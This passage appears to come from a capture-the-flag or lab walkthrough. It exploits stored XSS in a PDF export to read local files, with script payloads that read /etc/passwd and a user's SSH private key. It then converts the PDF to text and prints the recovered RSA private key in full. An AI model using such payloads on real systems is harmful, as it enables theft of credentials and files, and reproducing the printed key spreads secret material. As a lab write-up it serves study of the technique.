 We use this [website](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html) for the next section.

There is a section on xss with pdfs , convinently we have a pdf vuln on the site so we know that this could be a good exploit.

```php
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```

We add this code to both the sections in the collections tab as the user and upload a file e.g test.txt with some simple contents for example 1 word.

We then navigate to the admin panel and go onto the collections tab and download the pdf in collections column. Sure enough it is the `/etc/passwd` file.

So we can now get files off the system and onto our box, next we try to read the ssh key for the user. We know that the user is called `reader` as this is the user that came up in the passwd file.

we change the script to:

```php
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>
```

And sure enough we get the ssh key for the user!.

### pdf to text

Now we have to find out a way to get the pdf key to text.

We find a github repository with a tools that we can do this with. we run `git clone https://github.com/pdfminer/pdfminer.six.git` and then go into the tools folder and execute `python pdf2txt.py 5652.pdf -o id_rsa`.

If you get errors with this you will have to `pip install pdfminer.six` to get the depndancies for running this file with python.

We now edit this file in a text editor and change the formatting of the top and bottom lines slightly to march an ssh-key format. We know have this:

```text
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEA2JJQsccK6fE05OWbVGOuKZdf0FyicoUrrm821nHygmLgWSpJ
G8m6UNZyRGj77eeYGe/7YIQYPATNLSOpQIue3knhDiEsfR99rMg7FRnVCpiHPpJ0
WxtCK0VlQUwxZ6953D16uxlRH8LXeI6BNAIjF0Z7zgkzRhTYJpKs6M80NdjUCl/0
ePV8RKoYVWuVRb4nFG1Es0bOj29lu64yWd/j3xWXHgpaJciHKxeNlr8x6NgbPv4s
7WaZQ4cjd+yzpOCJw9J91Vi33gv6+KCIzr+TEfzI82+hLW1UGx/13fh20cZXA6PK
75I5d5Holg7ME40BU06Eq0E3EOY6whCPlzndVwIDAQABAoIBAQCs+kh7hihAbIi7
3mxvPeKok6BSsvqJD7aw72FUbNSusbzRWwXjrP8ke/Pukg/OmDETXmtgToFwxsD+
McKIrDvq/gVEnNiE47ckXxVZqDVR7jvvjVhkQGRcXWQfgHThhPWHJI+3iuQRwzUI
tIGcAaz3dTODgDO04Qc33+U9WeowqpOaqg9rWn00vgzOIjDgeGnbzr9ERdiuX6WJ
jhPHFI7usIxmgX8Q2/nx3LSUNeZ2vHK5PMxiyJSQLiCbTBI/DurhMelbFX50/owz
7Qd2hMSr7qJVdfCQjkmE3x/L37YQEnQph6lcPzvVGOEGQzkuu4ljFkYz6sZ8GMx6
GZYD7sW5AoGBAO89fhOZC8osdYwOAISAk1vjmW9ZSPLYsmTmk3A7jOwke0o8/4FL
E2vk2W5a9R6N5bEb9yvSt378snyrZGWpaIOWJADu+9xpZScZZ9imHHZiPlSNbc8/
ciqzwDZfSg5QLoe8CV/7sL2nKBRYBQVL6D8SBRPTIR+J/wHRtKt5PkxjAoGBAOe+
SRM/Abh5xub6zThrkIRnFgcYEf5CmVJX9IgPnwgWPHGcwUjKEH5pwpei6Sv8et7l
skGl3dh4M/2Tgl/gYPwUKI4ori5OMRWykGANbLAt+Diz9mA3FQIi26ickgD2fv+V
o5GVjWTOlfEj74k8hC6GjzWHna0pSlBEiAEF6Xt9AoGAZCDjdIZYhdxHsj9l/g7m
Hc5LOGww+NqzB0HtsUprN6YpJ7AR6+YlEcItMl/FOW2AFbkzoNbHT9GpTj5ZfacC
hBhBp1ZeeShvWobqjKUxQmbp2W975wKR4MdsihUlpInwf4S2k8J+fVHJl4IjT80u
Pb9n+p0hvtZ9sSA4so/DACsCgYEA1y1ERO6X9mZ8XTQ7IUwfIBFnzqZ27pOAMYkh
sMRwcd3TudpHTgLxVa91076cqw8AN78nyPTuDHVwMN+qisOYyfcdwQHc2XoY8YCf
tdBBP0Uv2dafya7bfuRG+USH/QTj3wVen2sxoox/hSxM2iyqv1iJ2LZXndVc/zLi
5bBLnzECgYEAlLiYGzP92qdmlKLLWS7nPM0YzhbN9q0qC3ztk/+1v8pjj162pnlW
y1K/LbqIV3C01ruxVBOV7ivUYrRkxR/u5QbS3WxOnK0FYjlS7UUAc4r0zMfWT9TN
nkeaf9obYKsrORVuKKVNFzrWeXcVx+oG3NisSABIprhDfKUSbHzLIR4=
```